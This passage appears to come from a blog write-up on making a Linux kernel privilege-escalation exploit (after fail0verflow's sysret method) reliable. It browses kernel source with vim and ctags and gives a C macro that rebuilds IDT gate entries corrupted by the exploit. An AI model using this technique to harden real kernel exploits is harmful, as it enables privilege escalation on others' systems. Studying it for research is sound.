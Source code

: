 ## Exploring kernel source code

We have the source code, so let's give a look: since I'm an old school dude I use
``vim`` when I have to code and it's pretty easy to look for data structures thanks to ``ctags``;
if you run ``ctags -R .`` from the root of the source code it generates a ``tags`` file that can be
indicated to ``vim`` using ``:set tags=/path/to/ctags``.

At this point using (inside ``vim``) the command ``:ts gate_struct64`` the editor asks
at what definition/declaration you want to jump to and then reaches that destination,
in this case ``arch/x86/include/asm/desc_defs.h`` at the precise line where the
requested ``struct`` is defined:

```
/* 16byte gate */
struct gate_struct64 {
	u16 offset_low;
	u16 segment;
	unsigned ist : 3, zero0 : 5, type : 5, dpl : 2, p : 1;
	u16 offset_middle;
	u32 offset_high;
	u32 zero1;
} __attribute__((packed));
typedef struct gate_struct gate_desc;
```

If you want to understand how to work the ``IDT`` and the exceptions handling you have to
look at files like ``arch/x86/kernel/idt.c`` end ``asm/x86/kernel/traps.c``.

## Improve the exploit

Following the methodology used by fail0verflow to develop a reliable exploit
for [FreeBSD](https://fail0verflow.com/blog/2012/cve-2012-0217-intel-sysret-freebsd/)
the missing piece is recreating the ``IDT`` messed up by the existing exploit.

Using the definition from the kernel's source code I created a
multiline macro in ``C`` (I haven't created a function because it has
to be called inside the payload and I would have to adjust the ``call``s
to it accordingly)

```C
#define set_entry(obj,n,_ist,_dpl,middle,low) ({  \
    obj[n].offset_low = low;            \
    obj[n].segment = 0x10;              \
    obj[n].offset_middle = middle;      \
    obj[n].offset_high = 0xffffffff;    \
    obj[n].ist = _ist;                  \
    obj[n].zero0 = 0x0;                 \
    obj[n].zero1 = 0x0;                 \
    obj[n].dpl = _dpl;                  \
    obj[n].type = 0xe;                  \
    obj[n].p = 0x1;                     \
    })
```
